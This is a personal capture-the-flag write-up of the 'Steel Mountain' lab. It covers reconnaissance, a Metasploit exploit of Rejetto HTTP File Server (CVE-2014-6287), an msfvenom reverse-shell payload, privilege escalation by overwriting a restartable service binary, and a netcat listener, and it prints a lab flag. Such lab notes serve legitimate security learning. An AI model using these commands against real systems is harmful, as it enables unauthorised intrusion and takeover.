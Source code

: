 # Steel Mountain

## 1 - Introduction
Kicked off my nmaps here
### Who is employee of the month? 
Visiting the site shows us an image, viewing image src shows filename BillHarper.png - ez
hint suggests using reverse image search but wasn't necessary.

## 2 - Initial Access 
### What is the other port running a web server on?
Scan shows 8080 running http server
### What file server is running? (on the other web server)
http file server is clear, link shows rejetto - rejetto http file server
### What is the CVE number to exploit this file server?
searching in exploit-db, chose the metasploit link, we see 2014-6287, a remote command execution vulnerability
### Use metasploit to get an initial shell. What is the user flag?
`msfconsole`
`search rejetto` -  1 result, so
`use 0`
`show options` - we need to set RHOSTS and RPORT 
`set RHOSTS {machine ip}`
`set RPORT 8080`
`exploit` - gets us a meterpreter which we can turn into a powershell with `shell`. These bits are always showing me that I know very little Powershell.
Found the file (mainly luckily - could do with learnign the equivalent to `find` on psh.) the desktop. `type user.txt` gives us the flag: b04763b6fcf51fcd7c13abc7db4fd365

We have our user access, next up:
## 3 - Privilege escalation
Description for this one is prety much a walkthrough, used the powersploit privesc powerup to find a service which we can both:
- write to
- restart
This means we can replace the service with our payload, a reverse shell.
using msfvenom we generate a new payload (will admit i just copied th example here instead of reading up on msfvenom again)
`msfvenom -p windows/shell_reverse_tcp LHOST={my eth0 ip} LPORT=4443 -e x86/shikata_ga_nai -f exe -o Advanced.exe`

using our meterpreter session, `upload {path to payload}` puts out payload on the target machine
`load powershell` gives us a psh extension so we can use some cmdlets
`powershell_shell` gets us into a powershell session.
`Stop-Service AdvancedSystemCareService9` - stops the service so we don't get an 'in-use' error when overwriting
`Copy-Item -Path {payload path} -Destination {dest path - 'C:\Program Files (x86)\IObit\Advanced SystemCare\ASCService.exe'} -Force`
now our payload has replaced the service, on the attacker machine we need to listen for the reverse shell.
`nc -lvp 4443' (port we set in the venom command) listens
back in the powershell session, we want to start the service again - `Start-Service AdvancedSystemCareService9`
This should give us a root session in our netcat listener! we're in

## 4 - Access and Escalation without Metasploit

